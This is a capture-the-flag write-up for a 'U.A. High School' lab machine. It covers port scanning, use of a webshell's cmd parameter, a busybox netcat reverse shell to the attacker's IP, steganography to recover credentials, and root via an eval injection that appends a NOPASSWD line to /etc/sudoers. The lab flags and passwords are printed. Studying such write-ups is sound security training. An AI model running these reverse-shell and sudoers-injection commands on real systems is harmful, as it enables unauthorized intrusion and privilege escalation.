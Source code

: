 # U.A. High School

---

## Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directory Enumeration

`/assets`

`assets/index.php`

http://10.10.222.82/assets/index.php

(might be hidden functionality, webshell)

`http://10.10.222.82/assets/index.php?cmd=id`

`http://10.10.222.82/assets/index.php?cmd=which%20nc`

`http://10.10.222.82/assets/index.php?cmd=which%20busybox`

## Initial foothold

`busybox nc 10.4.96.175 4444 -e sh`

`nc -lnvp 4444`


```
www-data@myheroacademia:/var/www$ ls
Hidden_Content  html
www-data@myheroacademia:/var/www$ cat Hidden_Content/
cat: Hidden_Content/: Is a directory
www-data@myheroacademia:/var/www$ cat Hidden_Content/passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg==
www-data@myheroacademia:/var/www$ cat Hidden_Content/passphrase.txt | base64 -d
AllmightForEver!!!
www-data@myheroacademia:/var/www$
```

`wget http://10.10.19.204/assets/images/oneforall.jpg`

`python3 magicbytes.py -i oneforall.jpg -m jpg`

`steghide extract -sf oneforall.jpg`

got creds.txt

```
cat creds.txt
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

`su deku` with password `One?For?All_!!one1/A`

**User.txt**
`THM{W3lC0m3_D3kU_1A_0n3f0rAll??}`

## Privilege Escaltion

```
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
deku@myheroacademia:~$

```

```
deku@myheroacademia:~$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi

deku@myheroacademia:~$
```

`read feedback`

`eval "echo $feedback"`

we can execute commands

`deku ALL=NOPASSWD: ALL >> /etc/sudoers`

Since I can write any file as root by exploiting feedback , the quickest possible way is to add our current user deku on sudoers file which mean deku can be a member of sudo user and can has all right same as root user.

```
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    (root) NOPASSWD: ALL
deku@myheroacademia:~$

```

```
deku@myheroacademia:~$ sudo su
root@myheroacademia:/home/deku#
```

Got Root!

**Root.txt**
`THM{Y0U_4r3_7h3_NUm83r_1_H3r0}`